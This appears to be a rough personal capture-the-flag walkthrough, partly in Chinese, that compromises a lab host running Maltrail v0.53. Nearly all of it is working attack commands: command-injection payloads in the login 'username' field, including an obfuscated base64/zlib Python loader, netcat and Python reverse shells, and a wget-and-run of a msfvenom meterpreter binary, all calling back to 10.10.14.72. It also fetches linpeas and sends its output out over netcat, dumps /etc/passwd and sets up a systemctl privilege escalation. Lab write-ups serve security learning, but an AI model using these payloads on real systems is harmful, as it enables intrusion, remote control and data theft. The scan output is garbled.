

10.10.11.224
scan 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 PORT STATE SERVICE VERSION22 /tcp open ssh OpenSSH 8.2 p1 Ubuntu 4 ubuntu0.7 (Ubuntu Linux; protocol 2.0 )ssh -hostkey: 3072 aa:88 :67 :d7:13 :3 d:08 :3 a:8 a:ce:9 d:c4:dd:f3:e1:ed (RSA)256 ec:2 e:b1:05 :87 :2 a:0 c:7 d:b1:49 :87 :64 :95 :dc:8 a:21 (ECDSA)_ 256 b3:0 c:47 :fb:a2:f2:12 :cc:ce:0 b:58 :82 :0 e:50 :43 :36 (ED25519)55555 /tcp open unknownfingerprint -strings: FourOhFourRequest : HTTP /1.0 400 Bad RequestContent -Type : text/plain; charset=utf-8 X -Content-Type -Options : nosniffDate : Sat, 05 Aug 2023 12 :53 :25 GMTContent -Length: 75 invalid basket name; the name does not match pattern : ^[wd-_ \.]{1 ,250 }$GenericLines , Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: HTTP /1.1 400 Bad RequestContent -Type : text/plain; charset=utf-8 Connection : closeRequest GetRequest : HTTP /1.0 302 FoundContent -Type : text/html; charset=utf-8 Location : /webDate : Sat, 05 Aug 2023 12 :52 :53 GMTContent -Length: 27 href ="/web" >Found</a>.HTTPOptions : HTTP /1.0 200 OKAllow : GET, OPTIONSDate : Sat, 05 Aug 2023 12 :52 :55 GMT_ Content-Length: 0
web http://10.10.11.224:55555/web http://10.10.11.224:55555/local --- Powered by Maltrail (v0.53) Language: Python
./xray webscan –plugin phantasm -u http://10.10.11.224:55555 –poc “pocs/*”
searchsploit maltrail
dirb http://10.10.11.224:55555/
command injection https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
curl ‘http://10.10.11.224:55555/web' wget http://10.10.14.72‘
curl ‘http://10.10.11.224:55555/test/login' wget http://10.10.14.72‘

curl ‘http://10.10.11.224:55555/test/login' sh -i >& /dev/tcp/10.10.14.72/7766 0>&1‘
username=;`python%20-c%20"exec(__import__('zlib' ).decompress(__import__('base64' ).b64decode(__import__('codecs' ).getencoder('utf-8' )('eNqNkE0LgzAMhv+K9NTCqB8MPYweZDgYYxtM7zK7DmWuKab+/1GsjN4MhaRvnuQtHb4GJhshyI+ykYtdhHNnJpAK0QvgikO0Rg9oBUkT7s6eFxkJ2m6hKIo8D1QUiwdfEvW38tSeb1WzOi9ifT9e2rp5VOWVhUu4BK2VtJS6R/gpZ8hCEJC/ZpNR5O9hVBoo82yykUs3clnIGfH/PC6f40hJ3A06xp6wHwLlW/w=' )[0])))"`
反弹shell failed
username =;`nc%2010 .10 .14 .72 %207766 %20 -e%20 /bin/bash`
反弹shell failed
username =;`wget%20 http://10.10.14.72:8011 /daemon;chmod%20 +x%20 daemon;./daemon`
目标主机下载了daemon，但是没有反弹shell成功
username =;`python%20 -c%20 'import%20 socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72" ,9091 ));os.dup2 (s.fileno(),0 );os.dup2 (s.fileno(),1 );os.dup2 (s.fileno(),2 );p=subprocess.call(["/bin/sh" ,"-i" ]);'`
反弹shell failed
username =;`python3 %20 -c%20 'import%20 socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72" ,9091 ));os.dup2 (s.fileno(),0 );os.dup2 (s.fileno(),1 );os.dup2 (s.fileno(),2 );p=subprocess.call(["/bin/sh" ,"-i" ]);'`
python不行，但是python3可以反弹成功
getshell python3 -c 'import pty;pty.spawn("/bin/bash")'
puma
/etc/passwd 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 cat /etc/passwdroot: x: 0 : 0 :root :/root :/bin/bash daemon: x: 1 : 1 :daemon :/usr/sbin :/usr/sbin/nologin bin: x: 2 : 2 :bin :/bin :/usr/sbin/nologin sys: x: 3 : 3 :sys :/dev :/usr/sbin/nologin sync: x: 4 : 65534 :sync :/bin :/bin/sync games: x: 5 : 60 :games :/usr/games :/usr/sbin/nologin man: x: 6 : 12 :man :/var/cache/man :/usr/sbin/nologin lp: x: 7 : 7 :lp :/var/spool/lpd :/usr/sbin/nologin mail: x: 8 : 8 :mail :/var/mail :/usr/sbin/nologin news: x: 9 : 9 :news :/var/spool/news :/usr/sbin/nologin uucp: x: 10 : 10 :uucp :/var/spool/uucp :/usr/sbin/nologin proxy: x: 13 : 13 :proxy :/bin :/usr/sbin/nologin data: x: 33 : 33 :www-data :/var/www :/usr/sbin/nologin backup: x: 34 : 34 :backup :/var/backups :/usr/sbin/nologin list: x: 38 : 38 :Mailing List Manager: /var/list: /usr/sbin/nologinirc: x: 39 : 39 :ircd :/var/run/ircd :/usr/sbin/nologin gnats: x: 41 : 41 :Gnats Bug-Reporting System (admin):/var/lib/gnats :/usr/sbin/nologin nobody: x: 65534 : 65534 :nobody :/nonexistent :/usr/sbin/nologin network: x: 100 : 102 :systemd Network Management,,,:/run/systemd :/usr/sbin/nologin resolve: x: 101 : 103 :systemd Resolver,,,:/run/systemd :/usr/sbin/nologin timesync: x: 102 : 104 :systemd Time Synchronization,,,:/run/systemd :/usr/sbin/nologin messagebus: x: 103 : 106 : :/nonexistent :/usr/sbin/nologin syslog: x: 104 : 110 : :/home/syslog :/usr/sbin/nologin _apt: x: 105 : 65534 : :/nonexistent :/usr/sbin/nologin tss: x: 106 : 111 :TPM software stack,,,:/var/lib/tpm :/bin/false uuidd: x: 107 : 112 : :/run/uuidd :/usr/sbin/nologin tcpdump: x: 108 : 113 : :/nonexistent :/usr/sbin/nologin sshd: x: 109 : 65534 : :/run/sshd :/usr/sbin/nologin landscape: x: 110 : 115 : :/var/lib/landscape :/usr/sbin/nologin pollinate: x: 111 : 1 : :/var/cache/pollinate :/bin/false refresh: x: 112 : 116 :fwupd-refresh user,,,:/run/systemd :/usr/sbin/nologin coredump: x: 999 : 999 :systemd Core Dumper: /:/usr/sbin/nologin lxd: x: 998 : 100 : :/var/snap/lxd/common/lxd :/bin/false puma: x: 1001 : 1001 : :/home/puma :/bin/bash _laurel: x: 997 : 997 : :/var/log/laurel :/bin/false
cat /home/puma/user.txt
privilege escalation wget http://10.10.14.72:8011/linpeas.sh -P /tmp
nc -w 3 10.10.14.72 8082 < linpeas.output
sudo -l
该命令是在Linux系统中查看名为 trail.service 的系统服务的状态。systemctl 是一个用于管理系统服务的命令行工具，用于启动、停止、重启和查看服务状态等操作。
具体含义如下：
/usr/bin/systemctl：systemctl 命令的路径。status：systemctl 命令的子命令，用于查看服务状态。trail.service：要查看状态的服务名称，这里是 trail.service。
通过执行该命令，您可以查看 trail.service 服务当前的运行状态、是否正在运行、最近的日志信息等。
cd /etc/systemd/system/
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 [Unit] Description =Maltrail. Server of malicious traffic detection systemDocumentation =https://github.com/stamparm/maltrailDocumentation =https://github.com/stamparm/maltrail/wikiRequires =network.targetBefore =maltrail-sensor.serviceAfter =network-on line.target[Service] User =pumaGroup =pumaWorkingDirectory =/opt/maltrailExecStart =/usr/bin/python3 server.pyRestart =on -failureKillMode =mixed[Install] WantedBy =multi-user.target
systemctl link /dev/shm/mm.service
My server 10.10.14.72
python3 -m http.server 8011
nc -lnvp 9091
msfconsole
msfvenom -a x86 –platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.72 LPORT=7766 -f elf -o daemon
nc -l -p 8082 > linpeas_out.txt